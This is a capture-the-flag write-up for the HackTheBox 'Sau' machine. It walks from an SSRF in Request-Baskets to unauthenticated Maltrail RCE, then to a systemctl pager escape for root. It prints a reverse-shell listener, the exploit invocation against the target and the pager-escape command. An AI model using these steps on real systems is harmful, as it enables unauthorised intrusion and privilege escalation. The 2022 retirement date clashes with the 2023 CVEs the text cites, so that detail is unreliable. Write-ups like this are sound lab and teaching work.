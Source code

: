 ```yaml
---

title: "Sau (HackTheBox | Easy | Retired 15 Apr 2022)"
subtitle: "SSRF → Maltrail RCE → systemctl pager escape → root"
author: "<YOUR NAME>"
date: "`r Sys.Date()`"
output:
github\_document:
toc: true
---------

<span style="color:#d9534f;"><strong>Path‑to‑root</strong></span>: **SSRF in Request‑Baskets 1.2.1** → internal **Maltrail 0.53** panel → unauth RCE (user <code>puma</code>) → sudo mis‑configuration (<code>systemctl</code> pager) → <strong>root</strong>.

---
```


# 0  Synopsis

|                |                                                  |
| -------------- | ------------------------------------------------ |
| **OS**         | Ubuntu 20.04 (Linux)                             |
| **Difficulty** | Easy                                             |
| **Skills**     | SSRF, internal‑pivoting, command inj, sudo abuse |
| **Major CVE**  | CVE‑2023‑27163 • CVE‑2023‑26604                  |

---

# 1  Enumeration

## 1.1  Port scan

```bash
nmap -sC -sV -oN sau_nmap.txt 10.10.11.224
```

![Nmap result](img/step01_nmap.png)

* 22/tcp  → OpenSSH 8.2p1
* 55555/tcp  → **Request‑Baskets 1.2.1**

## 1.2  Request‑Baskets (port 55555)

Create basket `/sranwqq` → set **Forward URL** to <code>[http://127.0.0.1:80](http://127.0.0.1:80)</code> and tick *Proxy Response* + *Expand Forward Path*.

![Basket config](img/step02_ssrf.png)

Visiting the basket endpoint reveals the internal **Maltrail v0.53** panel.

![Maltrail panel](img/step03_maltrail.png)

---

# 2  Foothold — Maltrail 0.53 RCE

Maltrail v0.53 allows unauthenticated command injection via the <code>sensor\_name</code> field.

> **Exploit script** · [`maltrail_poc.py`](maltrail_poc.py) — credit 0x0mar (Exploit‑DB #51676)

```bash
# attacker box
nc -lvnp 4444 &
python3 maltrail_poc.py \
        --lhost 10.10.14.6 --lport 4444 \
        --url "http://10.10.11.224:55555/sranwqq/track"
```

Reverse shell arrives as user <code>puma</code>.

![Shell as puma](img/step04_shell.png)

---

# 3  Privilege escalation — `systemctl` pager escape

Check sudo:

![sudo -l](img/step05_sudo.png)

```bash
sudo /usr/bin/systemctl status trail.service
# when the output opens inside the less pager
!/bin/bash
```

Root shell achieved.

![Root shell](img/step06_root.png)

---

# 4  Artifacts & hashes

| File                         | Purpose               | SHA‑256        |
| ---------------------------- | --------------------- | -------------- |
| `maltrail_poc.py`            | Unauth RCE exploit    | `<paste‑hash>` |
| `systemctl_pager_escape.txt` | One‑liner cheat‑sheet | N⁄A            |

---

# 5  Flags

| Path                  | MD5 hash                           |
| --------------------- | ---------------------------------- |
| `/home/puma/user.txt` | `xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx` |
| `/root/root.txt`      | `yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy` |

---

# 6  References

* **CVE‑2023‑27163** — Request‑Baskets SSRF [https://nvd.nist.gov/vuln/detail/CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163)
* **Exploit‑DB 51676** — Maltrail 0.53 RCE [https://www.exploit-db.com/exploits/51676](https://www.exploit-db.com/exploits/51676)
* **CVE‑2023‑26604** — systemd pager LPE [https://nvd.nist.gov/vuln/detail/CVE-2023-26604](https://nvd.nist.gov/vuln/detail/CVE-2023-26604)
